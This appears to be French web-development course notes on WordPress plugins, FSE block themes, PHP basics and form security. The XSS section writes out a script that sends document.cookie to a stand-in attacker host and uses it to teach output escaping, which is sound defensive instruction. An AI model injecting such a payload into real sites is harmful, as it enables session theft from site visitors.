




## Traduction plus simple


### C’est quoi GTranslate ?

* Une extension WordPress
* Permet de traduire automatiquement ton site
* Fonctionne avec Google Translate
* Version gratuite = traduction automatique
* Version payante = SEO multilingue + URL traduites

### Installation
* Dans WordPress → **Extensions > Ajouter**
* Cherche : **GTranslate**
* Clique sur **Installer**
* Clique sur **Activer**

### Configuration de base
1. Va dans Réglages > GTranslate
2. Choisis :
  * 🌐 Langue par défaut du site
  * 🌎 Langues à afficher
3. Choisis le style du sélecteur :
  * Drapeaux
  * Liste déroulante
  * Texte
4. Enregistre

### Afficher le sélecteur de langue
**Avec un bloc (thème bloc / FSE)**

* Ajoute un bloc **Shortcode**
* Mets :

``` 
  [gtranslate]
```

### Comment ça fonctionne ?

* Le visiteur clique sur une langue
* Le contenu est traduit automatiquement
* Aucun contenu n’est dupliqué
* Aucune traduction manuelle nécessaire (version gratuite)

#### Limites version gratuite

* URL non traduites
* SEO multilingue limité
* Traduction parfois approximative
* Pas de gestion fine du contenu

#### Version Pro (optionnelle)
**Permet :**

* URLs traduites (ex: /contact → /contact-us)
* Indexation Google par langue
* Traduction améliorée
* Édition manuelle des traductions


## Résumé
| Tu veux…  | Solution   |
| ----------- | ----------- |
| Traduction automatique rapide   | GTranslate   |
| Contrôle total et structure propre  | Polylang   |


## Thème FSE personnalisé


Minimalement, un thème WordPress FSE (Block Based Themes) doit avoir la structure de fichiers suivante :

```txt
wp-content/themes/
└── tim_momo/
    ├── parts/
    │   ├── header.html
    │   └── footer.html
    ├── templates/
    │   ├── single.html (facultatif)
    │   └── index.html
    ├── theme.json
    ├── screenshot.png (facultatif)
    ├── functions.php (facultatif, mais important)
    └── style.css
```

### Dossier du thème

Dans le dossier `wp-content/themes/`, créer un dossier pour le nouveau thème, par exemple :

``` text
wp-content/themes/tim_momo/
```

### Fichier `style.css`

Un fichier `style.css` doit être ajouté à la racine du thème.

Même s’il n’est pas utilisé (on verra pourquoi plus tard), ce fichier est requis pour que WordPress reconnaisse le thème.

```css title="Exemple de style.css"
/*
Theme Name: Tim Montmorency (Momo)
Author: cmontmorency
Description: Un super thème de départ pour WordPress
Requires at least: 6.7
Version: 1.0
*/
```

{ data-zoom-image }

On peut ajouter plusieurs autres informations dans le commentaire CSS de ce fichier. Pour voir d'autres possibilités, consultez le fichier `style.css` d'autres thèmes ou encore mieux, la [documentation sur le fichier `style.css`](https://developer.wordpress.org/themes/basics/main-stylesheet-style-css/).

### Fichier theme.json

[Un fichier `theme.json`](https://developer.wordpress.org/block-editor/how-to-guides/curating-the-editor-experience/theme-json/) doit être ajouté à la racine du thème.

Il permet de contrôler le style global et la configuration des blocs. Beaucoup de configurations peuvent être spécifiées dans ce fichier. Je vous recommande fortement de consulter la [documentation sur le fichier `theme.json`](https://developer.wordpress.org/themes/global-settings-and-styles/) pour en savoir plus.

```json title="Exemple de theme.json"
{
  "$schema": "https://schemas.wp.org/wp/6.7/theme.json",
  "settings": {
    "appearanceTools": true,
    "useRootPaddingAwareAlignments": true,
    "layout": {
      "contentSize": "620px",
      "wideSize": "1000px"
    },
    "spacing": {
      "units": ["%", "px", "em", "rem", "vh", "vw"]
    },
    "typography": {
      "fontFamilies": [
        {
          "fontFamily": "-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Oxygen-Sans, Ubuntu, Cantarell, 'Helvetica Neue', sans-serif",
          "name": "System Font",
          "slug": "system-font"
        }
      ]
    }
  },
  "templateParts": [
    {
      "area": "header",
      "name": "header"
    },
    {
      "area": "footer",
      "name": "footer"
    }
  ],
  "version": 3
}
```

Quelques explications :

* `"$schema"` : Ça sert surtout à VS Code pour aider avec l’autocomplétion et la validation du fichier.
* `settings` : Cette section contrôle les options disponibles dans l’éditeur et les styles par défaut.
* `templateParts` : Définit des régions récurrentes du thème. Par exemple, l'entête, le pied de page, la colonne de gauche, etc. Ce sont les éléments entourés d’un encadré mauve/violet 🟪 dans l'interface d'édition du site !

### Système de commentaires HTML

Si vous regardez dans les fichiers `.html` d'un thème, vous verrez que Wordpress utilise des commentaires HTML spéciaux.

Ces commentaires commençant toujours par `<!-- wp:` et ils ne sont pas de nature explicatives. En vérité, ce sont des [instructions pour l’éditeur de blocs](https://developer.wordpress.org/block-editor/reference-guides/core-blocks/) Gutemberg !

En gros, les commentaires disent à Gutemberg :

> « Voici un bloc que j'aimerais rendre éditable par l'utilisateur dans l'interface d'administration. »

Voici un exemple :

```html
<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center">Proudly Powered by <a href="https://wordpress.org" rel="nofollow">WordPress</a></p>
<!-- /wp:paragraph -->
```

{ data-zoom-image }

Pour en apprendre plus sur ce genre de syntaxe, il est souvent plus simple d'étudier ce que les autres thèmes FSE font.

### Entête et pied de page

Si dans notre modèle, on veut ajouter l'entête du site et le pied de page du site, on ajoute les commentaires suivants :

```html
<!-- wp:template-part {"slug":"header","tagName":"header"} /-->
<!-- wp:template-part {"slug":"footer","tagName":"footer"} /-->
```

L'option `slug` est le `name` du templateParts et doit correspondre au fichier html. Ex: `footer.html`.

L'option `tagName` est la balise html utilisée autour du contenu du template part.

#### Exemple de template header.html

```html
<!-- wp:group {"layout":{"inherit":"true"}} -->
<div class="wp-block-group">
	<!-- wp:group {"align":"full","layout":{"type":"flex","justifyContent":"space-between"},"style":{"spacing":{"padding":{"bottom":"30px","top":"30px"}}}} -->
	<div class="wp-block-group alignfull" style="padding-bottom:30px;padding-top:30px">

		<!-- wp:group {"layout":{"type":"flex"}} -->
		<div class="wp-block-group">
			<!-- wp:site-logo {"width":64} /-->

			<!-- wp:group -->
			<div class="wp-block-group">
				<!-- wp:site-title /-->
				<!-- wp:site-tagline /-->
			</div>
			<!-- /wp:group -->
		</div>
		<!-- /wp:group -->

		<!-- wp:navigation {"layout":{"type":"flex","setCascadingProperties":true,"justifyContent":"right","orientation":"horizontal"},"style":{"spacing":{"margin":{"top":"0"}}}} /-->

	</div>
	<!-- /wp:group -->

</div>
<!-- /wp:group -->

<!-- wp:spacer {"height":50} -->
<div style="height:50px" aria-hidden="true" class="wp-block-spacer"></div>
<!-- /wp:spacer -->
```

#### Exemple de template footer.html

```html
<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center">Proudly Powered by <a href="https://wordpress.org" rel="nofollow">WordPress</a></p>
<!-- /wp:paragraph -->
```


### Modèles

Le dossier `templates` contient les modèles de page.

Il en existe plusieurs. Voici un liste non exhaustive :

| Fichier                   | Utilisé pour…                                                |
|---------------------------|--------------------------------------------------------------|
| `index.html`              | Template par défaut (minimum requis)                         |
| `single.html`             | Un article de blog individuel (`post`)                       |
| `page.html`               | Une page WordPress (`page`)                                  |
| `archive.html`            | Une archive générique (catégorie, étiquette, auteur, etc.)   |
| `404.html`                | Page d’erreur 404                                            |
| `search.html`             | Résultats de recherche                                       |
| `home.html`               | Page des articles du blog (si page d’accueil = statique)     |

Diagramme sur la [hiérarchie des modèles de page](https://developer.wordpress.org/themes/basics/template-hierarchy/) en Wordpress.

{ data-zoom-image }

## Générer un thème

Il existe des outils très faciles à utiliser pour générer des thèmes personnalisés :

* <https://fullsiteediting.com/block-theme-generator/>
* <https://wordpress.org/plugins/create-block-theme/>

### Scripts et CSS

Pour charger des scripts JavaScript ou des feuilles de style CSS, on peut le faire dans le fichier `functions.php` de notre thème.

Par exemple si on veut inclure Bootstrap 5 dans notre projet, voici le bout de code à ajouter.

```php title="functions.php"
<?php
// ...
// @todo: Changer tim_momo par le nom de votre thème
function tim_momo_enqueue_bootstrap() {
    wp_enqueue_style('bootstrap-css', 'https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css', [], 5.3);
    wp_enqueue_script('bootstrap-js', 'https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/js/bootstrap.bundle.min.js', [], 5.3, true);
}

// @todo: Changer tim_momo par le nom de votre thème
add_action('wp_enqueue_scripts', 'tim_momo_enqueue_bootstrap');
```

Pour tout ce qui est personnalisé, c'est la même méthode.

```php title="functions.php"
<?php
// ...
// @todo: Changer tim_momo par le nom de votre thème
function tim_momo_enqueue_assets() {
    wp_enqueue_style( 'mon_css_custom', get_template_directory_uri() . '/assets/css/salut.css' );
    wp_enqueue_script( 'mon_script_custom', get_template_directory_uri() . '/assets/js/bonjour.js', [], '1.0', true );
}

// @todo: Changer tim_momo par le nom de votre thème
add_action( 'wp_enqueue_scripts', 'tim_momo_enqueue_assets' );
```

#### Chargement dans l'administration

Si on ajoute pas ceci, les styles ne seront pas visibles lorsqu'on les modifie.

```php title="functions.php"
<?php
// ...
function tim_momo_editor_styles() {
    add_editor_style( 'https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css' );
    add_editor_style( './assets/css/styles.css' );
}
add_action( 'after_setup_theme', 'tim_momo_editor_styles' );
```

## Exercice

<div class="grid grid-1-2" markdown>
  

  <small>Exercice - Thème personnalisé</small><br>
  **[Thème perso](./exercices/custom-theme.md){.stretched-link .back}**
</div>


## Thème enfant FSE (Child theme)

Lorsqu’on souhaite développer un site à partir d’un thème FSE existant, il n’est **pas recommandé de modifier directement le thème original**.

À la place, il faut **créer un thème enfant** (ou *sous-thème*) basé sur ce thème FSE. Cela permet de **préserver vos modifications**, même si le thème parent est mis à jour ultérieurement. En effet, une mise à jour écraserait les fichiers du thème parent, mais **le thème enfant reste intact**.

Rien de plus simple à faire ! Il suffit d'utiliser le bon vieux plugin **Create Block Theme**.



Tout ce qu'il faut s'avoir c'est que dans le thème enfant, un fichier css a été généré et qu'il contient l'information `Template`. C'est la valeur de cette information qui lie l'enfant à son parent.

```css hl_lines="6"
/*
Theme Name: Kid
Requires at least: 6.7
Tested up to: 6.7
Requires PHP: 5.7
Template: twentytwentyfive
Text Domain: kid
*/
```

### Développement

Quand on développe un thème FSE, ça peut être frustrant de ne pas pouvoir tester l'enregistrement d'un template.

On peut revenir en arrière en réinitialisant le layout programmé. Pour ce faire, il faut aller dans Apparence > Editor > Templates et cliquer sur les trois points verticaux associés au template en question. Sélectionnez ensuite «Reset».



## PHP


PHP est un **langage interprété côté serveur** utilisé principalement pour générer du contenu dynamique sur le web.

WordPress utilise PHP pour générer des contenus et les récupérer dans une base de données.

### Exécuter du PHP

* Un fichier PHP doit avoir l’extension `.php`.
* Le fichier principal d’un site est souvent `index.php` (comme en html).
* Un code PHP est toujours entouré des balises PHP :

```php
<?php
    // Code PHP ici
?>
```

## Hello world

Pour afficher du texte dans la page HTML, on utilise la fonction `echo`.

=== "PHP"

    ```php
    <?php
    echo "Salut JS !";
    ?>
    ```

=== "JavaScript"

    ``` js
    document.write("Bonjour monsieur PHP !");
    ```

## Commentaires

=== "PHP"

    ```php
    <?php
    // Ceci est un commentaire sur une seule ligne

    # Ceci est aussi un commentaire sur une seule ligne

    /* Ceci est un commentaire sur
    plusieurs lignes. */
    ?>
    ```

=== "JavaScript"

    ``` js
    // Ceci est un commentaire sur une seule ligne

    /* Ceci est un commentaire sur
    plusieurs lignes. */
    ```

## Variables

{.w-100}

En PHP, les variables commencent par le symbole `$`.

=== "PHP"

    ```php
    <?php
        $title = "1984";          // Chaîne de caractères
        $publication_year = 1949; // Nombre entier
        $price = 9.99;            // Nombre flottant
        $recommended = true;      // Booléen
        $genres = ["science-fiction", "dystopique"]; // Tableau
    ?>
    ```

=== "JavaScript"

    ``` js
    let title = "1984";          // Chaîne de caractères
    let publication_year = 1949; // Nombre entier
    let price = 9.99;            // Nombre flottant
    let recommended = true;      // Booléen
    let genres = ["science-fiction", "dystopique"]; // Tableau
    ```

### Les tableaux associatifs

=== "PHP"

    ```php
    <?php
    $livre = [
        "titre" => "1984",
        "auteur" => "George Orwell",
        "annee" => 1949
    ];
    echo $livre["titre"]; // 1984
    ?>
    ```

=== "JavaScript"

    ``` js
    let livre = {
        titre: "1984",
        auteur: "George Orwell",
        annee: 1949
    };
    console.log(livre.titre); // 1984
    ```

### Les constantes

=== "PHP"

    ```php
    <?php
    const PI = 3.14159;
    echo PI; // 3.14159
    ?>
    ```

=== "JavaScript"

    ``` js
    const PI = 3.14159;
    console.log(PI); // 3.14159
    ```

## Concaténation

La concaténation permet d'assembler plusieurs chaînes de caractères pour former un texte complet.

En PHP, on utilise le point (`.`) pour concaténer des chaînes :

=== "PHP"

    ```php
    <?php
    $nom = "JF";
    $message = "Salut " . $nom . " !";
    echo $message; // Affiche : Salut JF !
    ?>
    ```

=== "JavaScript"

    ```js
    let nom = "JF";
    let message = "Salut " + nom + " !";
    console.log(message);
    ```

### Interpolation de chaîne

PHP permet d’insérer une variable directement dans une chaîne avec les guillemets `"`, mais pas avec l'apostrophe `'`.

=== "PHP"

    ```php
    <?php
    $nom = "JF";

    echo "Salut $nom !"; // Affiche : Salut JF !
    echo 'Salut $nom !'; // Affiche : Salut $nom !
    ?>
    ```

=== "JavaScript"

    ```js
    let nom = "JF";

    console.log(`Salut ${nom} !`); // Affiche : Salut JF !
    console.log('Salut ${nom} !'); // Affiche : Salut ${nom} !
    console.log("Salut ${nom} !"); // Affiche : Salut ${nom} !
    ```

    En JavaScript on appelle le concept _template literals_.

## Les opérateurs

### Opérateurs mathématiques

=== "PHP"

    ```php
    <?php
    $a = 10;
    $b = 5;
    echo $a + $b; // 15
    echo $a - $b; // 5
    echo $a * $b; // 50
    echo $a / $b; // 2
    echo $a % $b; // 0 (modulo)
    ?>
    ```

=== "JavaScript"

    ```js
    let a = 10;
    let b = 5;
    console.log(a + b); // 15
    console.log(a - b); // 5
    console.log(a * b); // 50
    console.log(a / b); // 2
    console.log(a % b); // 0 (modulo)
    ```

### Opérateurs de comparaison

Les opérateurs de comparaison sont souvent utilisés dans les conditions (`if`).

=== "PHP"

    ```php
    <?php
    $a = 10;
    $b = 5;
    $a == $b   # Vrai si $a est égal à $b (sans vérifier le type).
    $a === $b  # Vrai si $a est égal à $b et du même type.
    $a != $b   # Vrai si $a est différent de $b.
    $a !== $b  # Vrai si $a est différent de $b ou de type différent.
    $a < $b	   # Vrai si $a est inférieur à $b.
    $a > $b    # Vrai si $a est supérieur à $b.
    ?>
    ```

=== "JavaScript"

    ```js
    let a = 10;
    let b = 5;
    a == b  // Vrai si a est égal à b (sans vérifier le type).
    a === b // Vrai si a est égal à b et du même type.
    a != b  // Vrai si a est différent de b.
    a !== b // Vrai si a est différent de b ou de type différent.
    a < b   // Vrai si a est inférieur à b.
    a > b   // Vrai si a est supérieur à b.
    ```

## Structures conditionnelles

### if

=== "PHP"

    ```php
    <?php
    $celcius = 100;

    if ($celcius < 116) {
      echo "Zut ! Ma meringue italienne ne prend pas";
    } elseif ($celcius >= 116 && $celcius <= 118) {
      echo "Juste à point";
    } else {
      echo "Fudge ! La meringue italienne cristallise";
    }
    ?>
    ```

=== "JavaScript"

    ```js
    let celcius = 100;

    if (celcius < 116) {
    console.log("Zut ! Ma meringue italienne ne prend pas");
    } else if (celcius >= 116 && celcius <= 118) {
    console.log("Juste à point");
    } else {
    console.log("Fudge ! La meringue italienne cristallise");
    }
    ```

### switch

=== "PHP"

    ```php
    <?php
    $note = "B";

    switch ($note) {
      case "A":
        echo "Excellente note !!!";
        break;
      case "B":
        echo "Bonne note !";
        break;
      default:
        echo "C'est une note";
    }
    ?>
    ```

=== "JavaScript"

    ```js
    let note = "B";

    switch (note) {
      case "A":
        console.log("Excellente note !!!");
        break;
      case "B":
        console.log("Bonne note !");
        break;
      default:
        console.log("C'est une note");
    }
    ```

## PHP :heart: HTML

PHP s'intègre carrément dans du HTML :scream:

```php title="Code serveur (index.php)"
<?php $nom = "JF"; ?>
<!DOCTYPE html>
<html>
<head>
    <title>PHP ♥ HTML</title>
</head>
<body>
    <h1><?php echo $nom . " salut ses <strong>droogies</strong> !"; ?></h1>
</body>
</html>
```


```php title="Rendu côté client (votre navigateur)"
<!DOCTYPE html>
<html>
<head>
    <title>PHP ♥ HTML</title>
</head>
<body>
    <h1>JF salut ses <strong>droogies</strong> !</h1>
</body>
</html>
```

## Boucles

{.w-100}

### for()

=== "PHP"

    ```php
    <?php
    for ($i = 0; $i < 5; $i++) {
      echo "index $i /";
      // ou
      // echo "index " . $i . "/";
    }

    // Affiche : index 0 /index 1 /index 2 /index 3 /index 4 /
    ?>
    ```

=== "JavaScript"

    ```js
    for (let i = 0; i < 5; i++) {
      console.log(`Itération ${i}`);
      // ou
      console.log("Itération " + i);
    }
    ```

### while()

=== "PHP"

    ```php
    <?php
    $i = 0;

    while ($i < 5) {
        echo "Valeur : $i <br>";
        $i++;
    }
    ?>
    ```

=== "JavaScript"

    ```js
    let i = 0;

    while (i < 5) {
        console.log("Valeur : " + i);
        i++;
    }
    ```

### foreach()

=== "PHP"

    ```php
    <?php
    $fruits = ["Tomate", "Concombre", "Aubergine", "Piment", "Olive"];

    foreach ($fruits as $fruit) {
      echo $fruit . "<br>";
    }

    // Affiche :  Tomate<br>Concombre<br>Aubergine<br>Piment<br>Olive<br>
    ?>
    ```

=== "JavaScript"

    ```js
    let fruits = ["Tomate", "Concombre", "Aubergine", "Piment", "Olive"];
    fruits.forEach(
        fruit => console.log(fruit)
    );
    ```

## Fonctions

=== "PHP"

    ```php
    <?php
    function pythagore($a, $b) {
      return sqrt($a ** 2 + $b ** 2);
    }

    echo pythagore(3, 4); // Affiche : 5
    ?>
    ```

=== "JavaScript"

    ```js
    function pythagore(a, b) {
      return Math.sqrt(a ** 2 + b ** 2);
    }

    console.log(pythagore(3, 4)); // Affiche : 5
    ```

## Fonctions PHP courantes

Longueur d'une chaîne de caractères

=== "PHP"

    ```php
    <?php
    $texte = "Bonjour";
    echo strlen($texte); // 7
    ?>
    ```

=== "JavaScript"

    ```js
    let texte = "Bonjour";
    console.log(texte.length); // 7
    ```

Convertion de chaîne en minuscules ou majuscules

=== "PHP"

    ```php
    <?php
    $texte = "Bonjour";
    echo strtolower($texte); // bonjour
    echo strtoupper($texte); // BONJOUR
    ?>
    ```

=== "JavaScript"

    ```js
    let texte = "Bonjour";
    console.log(texte.toLowerCase()); // bonjour
    console.log(texte.toUpperCase()); // BONJOUR
    ```

Suppression des espaces au début et à la fin d'une chaîne

=== "PHP"

    ```php
    <?php
    $texte = "  Bonjour  ";
    echo trim($texte); // "Bonjour"
    ?>
    ```

=== "JavaScript"

    ```js
    let texte = "  Bonjour  ";
    console.log(texte.trim()); // "Bonjour"
    ```

Remplacement de caractères

=== "PHP"

    ```php
    <?php
    $texte = "Bonjour";
    echo str_replace("o", "a", $texte); // Banjaur
    ?>
    ```

=== "JavaScript"

    ```js
    let texte = "Bonjour";
    console.log(texte.replace("o", "a")); // Banjaur
    ```

Nombre d'éléments dans un tableau

=== "PHP"

    ```php
    <?php
    $array = [1, 2, 3, 4, 5];
    echo count($array); // 5
    ?>
    ```

=== "JavaScript"

    ```js
    let array = [1, 2, 3, 4, 5];
    console.log(array.length); // 5
    ```

Vérifier si une valeur est dans un tableau

=== "PHP"

    ```php
    <?php
    $array = ["pomme", "banane", "orange"];
    if(in_array("banane", $array)) {
      echo "Oui";
    } else {
      echo "Non";
    }
    ?>
    ```

=== "JavaScript"

    ```js
    let array = ["pomme", "banane", "orange"];
    if(array.includes("banane")) {
      console.log("Oui");
    } else {
      console.log("Non");
    }
    ```

Arrondir un nombre

=== "PHP"

    ```php
    <?php
    $nombre = 4.6;
    echo round($nombre); // 5
    ?>
    ```

=== "JavaScript"

    ```js
    let nombre = 4.6;
    console.log(Math.round(nombre)); // 5
    ```

Générer un nombre aléatoire

=== "PHP"

    ```php
    <?php
    echo rand(1, 10); // Nombre entre 1 et 10
    ?>
    ```

=== "JavaScript"

    ```js
    console.log(Math.floor(Math.random() * 10) + 1); // Nombre entre 1 et 10
    ```

### Validation et sécurité des entrées utilisateur

Vérifier si une variable est définie : `isset($variable)`

Vérifier si une variable est vide : `empty($variable)`

Convertit les caractères spéciaux (< > & " ') en entités HTML : `htmlspecialchars($input)`

## Formulaire

{.w-100}

```html title="index.html"
<form method="post" action="traitement.php">
    <input type="text" name="nom" placeholder="Votre nom">
    <input type="hidden" name="identifiant" value="23487102948">
    <button type="submit">Envoyer</button>
</form>
```

```php title="traitement.php"
<?php
if (isset($_POST['nom'])) {
    echo "Bonjour, " . $_POST['nom'];
}

if (isset($_POST['identifiant'])) {
    echo "Votre id unique est " . $_POST['identifiant'];
}
?>
```
1. $_POST

$_POST est une **superglobale PHP**.

Elle contient les données envoyées par un formulaire HTML avec :

```html
<form method="post">
```
2. isset()

```php
isset($_POST['nom'])
```

Vérifie si la variable existe.

👉 Ça évite une erreur si le formulaire n’a pas encore été soumis.

**Sans isset(), PHP afficherait un avertissement.**


### Sécurité

{.w-100}

### Injection XSS — c’est un concept très important en sécurité web.

#### C’est quoi une injection XSS ?

**XSS = Cross-Site Scripting**

C’est une attaque où un utilisateur malveillant :

1. Entre du code JavaScript dans un formulaire
1. Ce code est enregistré ou affiché sans protection
1. Le navigateur exécute ce code comme s’il faisait partie du site

👉 Le problème : le navigateur ne sait pas que ce script vient d’un utilisateur.

**Exemple concret**

Un attaquant écrit dans un champ prénom :
```html
<script>alert("Hacked!")</script>
```

Si ton code fait :
```php
echo "Bonjour, " . $_POST['prenom'];
```

Le navigateur reçoit :

```html
Bonjour, <script>alert("Hacked!")</script>
```

Et le script s’exécute.

**Résultat :**

* Une alerte s’affiche
* Mais ça pourrait aussi :
  * Voler des cookies
  * Rediriger l’utilisateur
  * Modifier la page
  * Envoyer des données à un serveur externe

**Pourquoi c’est dangereux ?**

Un vrai attaquant pourrait injecter :
```html
<script>
fetch("https://site-pirate.com/steal?cookie=" + document.cookie);
</script>
```

👉 Il vole les sessions des utilisateurs.

**Analyse de ton code**

#### ❌ Version dangereuse
```php
echo "Bonjour, " . $nom;
```

Tu affiches directement la donnée utilisateur.
Le navigateur l’interprète comme du HTML.

#### ⚠️ Version partiellement correcte
```php
htmlspecialchars($nom);
```

Convertit les caractères spéciaux :

| Caractère   | Devient   |
| ----------- | ----------- |
| <   		  | `&lt;`  |
| >   		  | `&gt;`  |
| "  		  | `&quot;`  |
| '   		  |	`&#039;`	|

Donc :
```php
<script>
```

devient :
```markdown
&lt;script&gt;
```

Le navigateur l’affiche comme du texte, pas comme du code.

#### ✅ Version sécurisée recommandée
```php
htmlspecialchars($nom, ENT_QUOTES, 'UTF-8');
```

Pourquoi mieux ?

* **ENT_QUOTES** protège aussi les apostrophes
* **UTF-8** évite des failles liées à l’encodage

**Avant / Après**

Entrée utilisateur :
```php
<script>alert("XSS")</script>
```

Affichage sécurisé :
```markdown
&quot;&gt;&lt;script&gt;alert(&quot;XSS&quot;)&lt;/script&gt;
```

Le script ne s’exécute pas.

## Exercices

<div class="grid grid-1-2" markdown>
  

  <small>Exercice - PHP</small><br>
  **[Copenhague](./exercices/copenhague.md){.stretched-link .back}**
</div>


Pour afficher du texte dans la "console", on peut utiliser la fonction `console.log`.

=== "PHP"

    ```php
    <?php
    error_log("Salut JS !");
    ?>
    ```

=== "JavaScript"

    ``` js
    console.log("Bonjour monsieur PHP !");
    ```

!!! info "Console serveur ?"

    Du côté serveur, il n'existe pas de console. Ce qui remplace le concept s'appelle _log_.

    Il existe des _logs_ pour PHP, pour Apache, pour MYSQL, etc.

    Lorsque vous faites un `error_log("allo");` en PHP, vous pourrez voir son contenu dans `php_error.log` qui devrait se situer sous `C:\MAMP\logs`

    Toutefois, vous trouverez sans doute plus pratique d'utiliser simplement `echo` pour imprimer la chaine de caractères sur votre page directement.

```php
<?php
$data = ["Hello", "World"];
var_dump($data);  // Affiche le type et la structure de la variable
print_r($data);   // Affiche uniquement la structure
?>
```

#### Aide mémoire de sécurité

| **Type de champ HTML** | **Exemple HTML** | **Vérification & Nettoyage** | **Protection appliquée** |
|----------------|------------------|--------------------|------------------|
| **Texte (`<input type="text">`)** | `<input type="text" name="nom">` | `trim(strip_tags($_POST['nom']))`<br>`htmlspecialchars($_POST['nom'], ENT_QUOTES, 'UTF-8')` | ✅ Empêche XSS & HTML Injection |
| **Textarea (`<textarea>`)** | `<textarea name="message"></textarea>` | `trim(strip_tags($_POST['message']))`<br>`htmlspecialchars($_POST['message'], ENT_QUOTES, 'UTF-8')` | ✅ Empêche XSS & HTML Injection |
| **Courriel (`<input type="email">`)** | `<input type="email" name="email">` | `filter_var($_POST['email'], FILTER_VALIDATE_EMAIL)` | ✅ Empêche faux emails & XSS |
| **URL (`<input type="url">`)** | `<input type="url" name="site">` | `filter_var($_POST['site'], FILTER_VALIDATE_URL)` | ✅ Empêche injection de liens dangereux |
| **Nombre (`<input type="number">`)** | `<input type="number" name="age">` | `filter_var($_POST['age'], FILTER_VALIDATE_INT)` | ✅ Empêche XSS & Valeurs incorrectes |

Pour les input de type radio, checkbox et select vous deviez utiliser `isset()` et `in_array()` pour vérifier que la valeur est permise.


## Astra – C’est quoi ?

* Thème WordPress gratuit (freemium)
* Disponible dans le répertoire officiel WordPress
* Plus de 1 million d’installations actives
* Un des thèmes les plus populaires (hors thèmes natifs comme Twenty Twenty)

### Pourquoi Astra est populaire ?

1. Facile à utiliser même sans coder
  * Compatible avec :
  * Gutenberg
  * Elementor
  * Brizy
  * Beaver Builder
1. Très léger → rapide à charger
1. Conçu pour être performant

### Après activation du thème

* Un menu “Options d’Astra” apparaît dans Apparence
* Tous les réglages se font dans le Personnaliseur WordPress

## Version gratuite vs Pro
### Version gratuite :

* Personnalisation des couleurs
* Typographie
* Largeur du site
* Logo
* Blog (auteur, date, commentaires)
* Boutons (couleur, arrondis)
* Barre latérale droite / gauche / aucune
* Ajout :

  * Boutons
  * Réseaux sociaux
  * Barre de recherche
  * HTML
  * Widgets

* Modifier le copyright

### Version Pro :

* 15 modules supplémentaires
* Plus d’options avancées
* Accès à plus de modèles premium

## Sites prêts à importer (Starter Templates)
* Modèles de sites complets prêts à installer
* Nécessite l’extension Starter Templates
* Choix selon constructeur (Gutenberg, Elementor, etc.)
* Environ 100 modèles
* Certains modèles = licence payante
* Possibilité de supprimer la démo facilement

## Header & Footer Builder
* Fonctionne en glisser-déposer
* 3 zones :
 * Au-dessus
 * Zone principale
 * En-dessous

* On peut déplacer les éléments librement
* Réglages de design disponibles (marges, fond, bordures…)

## Responsive

Adapté aux :

* Ordinateurs
* Tablettes
* Téléphones

## En résumé

Astra est :

* Simple
* Rapide
* Flexible
* Idéal pour débutants et pros
* Gratuit avec options payantes


